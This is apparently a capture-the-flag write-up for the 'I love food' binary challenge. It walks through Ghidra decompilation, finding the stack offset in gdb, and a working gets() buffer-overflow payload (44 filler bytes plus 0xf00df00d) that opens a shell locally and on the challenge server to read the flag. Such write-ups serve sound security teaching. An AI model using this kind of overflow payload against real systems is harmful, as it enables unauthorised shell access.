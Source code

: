 # I love food !

Subject :

```md
I made a program to know more about the tastes of the players, what's your favorite food ? :)

http://internetcest.fun:13338
```

[This binary](./i_love_food) is given. Let's try it out :

```console
$ ./i_love_food 
What is your favorite dish ? 
test
Interesting... Mine is DEADBEEF :) 
```

The program is asking for an input, and exiting. Let's explore the code.

## Static analysis

Using ghidra we can find those functions :

```C
undefined8 main(void)
{
  setup();
  vuln();
  return 0;
}

void vuln(void)
{
  char local_38 [44];
  uint local_c;
  
  local_c = 0xdeadbeef;
  puts("What is your favorite dish ? ");
  gets(local_38);
  if (local_c == 0xf00df00d) {
    puts("Damn that\'s a good one !");
    system("/bin/sh");
  }
  else {
    printf("Interesting... Mine is %X :)",(ulong)local_c);
  }
  return;
}
```

We want to execute the command `system("/bin/sh");` in the vuln() function to get a shell. To do so we'll need to pass this condition : `if (local_c == 0xf00df00d)`.  
  
To achieve this, we'll modify the local_c variable by exploiting the gets() function which is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

## Dynamic analysis

Let's find out how many bytes we need to write over before modifying local_c using gdb.  
  
First, we'll add a breakpoint (gdb will stop everytime the program reaches this instruction) after the gets() function is called. To do so, we'll disassemble the vuln() function and look for the instruction calling gets() :

```gdb
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0000000000001194 <+0>:	push   %rbp
   0x0000000000001195 <+1>:	mov    %rsp,%rbp
   0x0000000000001198 <+4>:	sub    $0x30,%rsp
   0x000000000000119c <+8>:	movl   $0xdeadbeef,-0x4(%rbp)
   0x00000000000011a3 <+15>:	lea    0xe5a(%rip),%rax        # 0x2004
   0x00000000000011aa <+22>:	mov    %rax,%rdi
   0x00000000000011ad <+25>:	call   0x1030 <puts@plt>
   0x00000000000011b2 <+30>:	lea    -0x30(%rbp),%rax
   0x00000000000011b6 <+34>:	mov    %rax,%rdi
   0x00000000000011b9 <+37>:	mov    $0x0,%eax
   0x00000000000011be <+42>:	call   0x1070 <gets@plt>
   0x00000000000011c3 <+47>:	cmpl   $0xf00df00d,-0x4(%rbp)
   0x00000000000011ca <+54>:	jne    0x11ec <vuln+88>
   0x00000000000011cc <+56>:	lea    0xe4f(%rip),%rax        # 0x2022
   0x00000000000011d3 <+63>:	mov    %rax,%rdi
   0x00000000000011d6 <+66>:	call   0x1030 <puts@plt>
   0x00000000000011db <+71>:	lea    0xe59(%rip),%rax        # 0x203b
   0x00000000000011e2 <+78>:	mov    %rax,%rdi
   0x00000000000011e5 <+81>:	call   0x1050 <system@plt>
   0x00000000000011ea <+86>:	jmp    0x1205 <vuln+113>
   0x00000000000011ec <+88>:	mov    -0x4(%rbp),%eax
   0x00000000000011ef <+91>:	mov    %eax,%esi
   0x00000000000011f1 <+93>:	lea    0xe4b(%rip),%rax        # 0x2043
   0x00000000000011f8 <+100>:	mov    %rax,%rdi
   0x00000000000011fb <+103>:	mov    $0x0,%eax
   0x0000000000001200 <+108>:	call   0x1060 <printf@plt>
   0x0000000000001205 <+113>:	nop
   0x0000000000001206 <+114>:	leave
   0x0000000000001207 <+115>:	ret
End of assembler dump.
(gdb) break *vuln+47
Breakpoint 1 at 0x11c3
```

According to our static analysis, the variable used to store the user input is of 44 bytes : `char local_38 [44];`. Let's fill this variable by using python to print 44 characters (we'll use "\x41" which is an `A` in ascii), and then inspect the stack to see how many bytes we need to write over before writing over local_c :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xdeadbe00
0x7fffffffda50:	0xffffda70	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

The rsp (Resgister Stack Pointer) is a register that points to the top of the current stack. So by using the `x/20wx $rsp` instruction, we can inspect the current stack.  
In the stack, we can easily spot the 44 "\x41" we gave to the program, and we can see a 0xdeadbe00 value right next to it. During our static analysis, we found `local_c = 0xdeadbeef;`, which means that the local_c variable is stored right after the user input. Let's write over it by adding "\x0d\xf0\x0d\xf0" after our previous input (being on a [little endian system](https://en.wikipedia.org/wiki/Endianness) we write over memory in reverse) :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
```

Now let's inspect the stack :

```gdb
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xf00df00d
0x7fffffffda50:	0xffffda00	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

We can see that the local_c variable has been modified. Let's resume execution and see what happens :

```gdb
(gdb) continue
Continuing.
Damn that's a good one !
[Detaching after vfork from child process 4655]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

The program does reach the success message and open another process.  
  
Let's test our payload on the binary using the intruction `(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee)` to input our payload, and then freeze the shell before it closes :

```console
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee) | ./i_love_food  
What is your favorite dish ? 

Damn that's a good one !
whoami
coucou
ls
exploit.py  i_love_food  README.md
```

We successfully opened a shell, so the final payload is : `"\x41"*44+"\x0d\xf0\x0d\xf0"`.

## Exploit

Now let's connect to the service and send our payload. To do so, we'll use [this script](./exploit.py) :

```console
$ python3 exploit.py                                                                              
b"What is your favorite dish ? \nDamn that's a good one !\n"
whoami
b'root\n'
ls
b'flag.txt\ni_love_food\ni_love_food.c\n'
cat flag.txt
b'FLAG{I_JU5T_L1K3_F00D!!}\n'
```
